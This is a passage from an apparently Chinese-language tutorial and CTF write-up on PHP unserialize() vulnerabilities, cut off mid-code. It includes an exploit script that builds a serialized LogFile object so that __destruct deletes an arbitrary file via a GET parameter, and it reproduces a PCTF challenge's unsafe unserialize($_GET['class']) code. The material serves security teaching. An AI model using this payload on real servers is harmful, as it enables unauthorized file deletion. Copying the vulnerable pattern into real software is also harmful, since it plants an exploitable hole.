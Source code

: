 ```php
?>

```

梳理下这2个php文件的功能，index.php是一个有php序列化漏洞的主业文件，logfile.php的功能就是在临时日志文件被记录了之后调用
`__destruct`方法来删除临时日志的一个php文件。
这个代码写的有点逻辑漏洞的感觉，利用这个漏洞的方式就是，通过构造能够删除source.txt的序列化字符串，然后get方式传入被反序列化函数,反序列化为对象，对象销毁后调用__destruct()来删除source.txt.

##### 漏洞利用exp

```php
<?php
include 'logfile.php';
$obj = new LogFile();
$obj->filename = 'source.txt'; //source.txt为你想删除的文件
echo serialize($obj) . '<br />';
?>
```

这里我们通过['GET']传入序列化字符串，调用反序列化函数来删除想要删除的文件。

![img](https://ooo.0o0.ooo/2017/07/02/5958ea576aa34.png)



之前还看到过一个wakeup()非常有意思的例子，这里直接上链接了

chybeta浅谈PHP反序列化 <(https://chybeta.github.io/2017/06/17/浅谈php反序列化漏洞/>

#### 其它magic function的利用

这里我就结合PCTF和今年国赛上的题来分析了

#### PCTF

[题目链接](http://web.jarvisoj.com:32768/index.php)

- 前面几步都是很常见的读文件源码

  这里直接放出给的两个源码

```php
//index.php
<?php 
    require_once('shield.php');
    $x = new Shield();
    isset($_GET['class']) && $g = $_GET['class'];
    if (!empty($g)) {
        $x = unserialize($g);
    }
    echo $x->readfile();
?>
```
上边index.php提示了包含的shield.php所以说直接构造base64就完事了

```php
//shield.php
<?php
    //flag is in pctf.php
    class Shield {
        public $file;
        function __construct($filename = '') {
            $this -> file = $filename;
        }
        function readfile() {
            if (!empty($this->file) && stripos($this->file,'..')===FALSE  
            && stripos($this->file,'/')===FALSE && stripos($this->file,'\\')==FALSE) {
                return @file_get_contents($this->file);
            }
```
